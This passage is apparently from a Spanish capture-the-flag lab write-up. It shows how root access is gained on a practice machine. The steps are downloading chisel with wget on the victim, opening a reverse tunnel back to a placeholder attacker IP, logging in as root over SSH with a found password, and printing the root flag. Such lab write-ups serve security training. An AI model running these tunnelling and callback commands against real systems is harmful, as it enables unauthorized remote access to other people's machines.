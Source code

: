 ```shell
chisel server -p 8000 --reverse
```

Desde la maquina `victima` esto otro:

```shell
cd /tmp
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
chmod +x chisel_1.9.1_linux_amd64
./chisel_1.9.1_linux_amd64 client <IP_ATTACKER>:8000 R:2222:127.0.0.1:22
```

Info (VICTIMA):

```
2025/08/19 10:25:57 client: Connecting to ws://192.168.5.50:8000
2025/08/19 10:25:57 client: Connected (Latency 2.867261ms)
```

Info (ATTACKER):

```
2025/08/19 04:16:00 server: Reverse tunnelling enabled
2025/08/19 04:16:00 server: Fingerprint NWSrKq19+/1bJLz5QUix+DiY2DwE7DGyis59k5LzuYo=
2025/08/19 04:16:00 server: Listening on http://0.0.0.0:8000
2025/08/19 04:25:56 server: session#1: Client version (1.9.1) differs from server version (0.0.0-src)
2025/08/19 04:25:56 server: session#1: tun: proxy#R:2222=>22: Listening
```

Veremos que ha funcionado todo de forma correcta, ahora vamos a conectarnos de esta forma por `SSH` con las credenciales de `root`.

```shell
ssh root@127.0.0.1 -p 2222
```

Metemos como contraseña `shadow123`...

Info:

```
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:2222' (ED25519) to the list of known hosts.
root@127.0.0.1's password: 
Linux dump 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64
root@dump:~# whoami
root
```

Con esto veremos que ya estaremos dentro, por lo que leeremos la `flag` de `root`.

> root.txt

```
60c60f8e926b65a55bf8bd6239bb616d
```
